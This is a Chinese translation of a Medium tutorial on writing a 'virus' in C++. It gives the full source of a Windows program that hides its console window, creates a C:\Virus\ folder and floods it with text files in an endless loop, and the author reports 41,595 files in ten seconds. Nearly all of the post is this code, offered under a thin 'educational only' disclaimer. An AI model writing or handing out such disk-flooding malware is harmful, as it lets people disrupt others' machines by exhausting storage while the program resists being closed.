# 电脑会生病吗？(如何用 C++创建病毒)

> 原文：<https://medium.com/codex/can-computers-get-sick-how-to-create-a-virus-in-c-e09f2a6ad45b?source=collection_archive---------11----------------------->

## 首先，我们需要了解电脑生病意味着什么。

嗯，这就是让计算机以重复的方式非常快速地做一些普通的事情。所以我们要用 C++来实现这个目的，因为它是一种超快的语言。我们走吧。

注意:这仅用于教育目的！

![](img/f72a55ead5a8949c77db2e24362738f1.png)

## 1.让我们把图书馆准备好。

```
#include <iostream>#include <fstream> //for openning the files and write inside of them#include <string> //to deal with strings#include <direct.h> //to create a directory#include <Windows.h> //so we can make the program anonymous
```

当然，光靠库是无法实现这些的，但是我们包含了它们，这样我们就可以使用那些会使我们的病毒变得危险的函数。

## 2.主要功能制作

是时候准备好主函数了，先从“FreeConsole()”函数让病毒匿名开始。我们还将创建一个 int 变量来跟踪病毒生成了多少文件，因此我们的代码将如下所示:

```
int main(){FreeConsole();
int h = 0;}
```

注意:“FreeConsole()”功能真的很酷，如果我们把它用户甚至不能关闭程序，除非从任务管理器。

让魔法开始吧，我们需要创建一个目录名，并创建一个消息来存放我们将要创建的文件。然后我们创建目录本身，因此主要功能是:

```
int main(){FreeConsole();int h = 0;const char *path = "C:\\Virus\\";std::string str ="your computer is dead";_mkdir(path); //this function will create the directory}
```

## 3.无限循环

这是代码变得真正危险的部分，我们将创建一个无限循环，不断创建越来越多的文件，永不停止。

无限循环代码必须是这样的:

```
while (true){++h;std::ofstream Virus;Virus.open(path + std::to_string(h) + ".txt", std::ios_base::out);Virus << str;Virus.close();}
```

## 真的很危险吗？

让我们试一试！我构建了这个程序，并在我的设备上运行它，当我启动它的时候就发生了这种情况:

![](img/4ccc890cb1071e5dff5aa11a3d9bc552.png)

如你所见，我们让杀毒软件开始运行我们的小病毒。邪恶！我们要检查的最后一件事是，在运行该病毒 10 秒钟后，我们创建了多少文件:

![](img/3c746fff1d11d6e27b5be0508aeb36ab.png)![](img/6562fef0916343f098cf290dd61c2e0d.png)

**41595 档！**

我告诉过你它太快了。

这篇博文到此结束，希望你喜欢！

源代码:

https://github.com/habiblafi/habib.virus